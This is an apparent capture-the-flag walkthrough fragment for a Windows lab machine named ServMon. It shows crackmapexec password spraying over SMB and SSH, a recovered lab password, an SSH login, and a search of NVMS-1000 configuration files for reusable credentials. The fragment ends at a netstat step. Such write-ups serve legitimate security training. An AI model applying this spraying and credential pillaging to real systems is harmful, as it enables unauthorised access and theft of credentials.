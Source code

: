 ```
vi users.txt
Nadine
Nathan
```

```
crackmapexec smb $TARGET -u users.txt -p Passwords.txt
```

-> OK with ServMin\Nadine:L1k3BlgBut7s@W0rk

```
smbclient -U -L //$TARGET
L1k3BlgBut7s@W0rk
```

-> Only C$ , ADMIN$ & IPC$

```
crackmapexec ssh $TARGET -u Nadine -p Passwords.txt
```

-> OK with nadine:L1k3BlgBut7s@W0rk

```
ssh nadine@$TARGET
L1k3BlgBut7s@W0rk

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>systeminfo
```

-> OK Login SSH and we get Windows KB version

Search 10.0.18363.752 on Google

## Looking for Pillaging and Local Privesc vector

```
cd inetpub

-> Nothing but ftp

cd recdata

-> Nothing apparent

cd Progra~1

-> NSClient++

cd Progra~2

cd NVMS-1000

-> Lookfor configuration files of webserver to steal creds that could be reused

type C:\Progra~2\NVMS-1000\Web\OCX\LocalParameters.xml

<NetPort>6063</NetPort>

netstat -an

-> We don't get the PID because we are not admin


```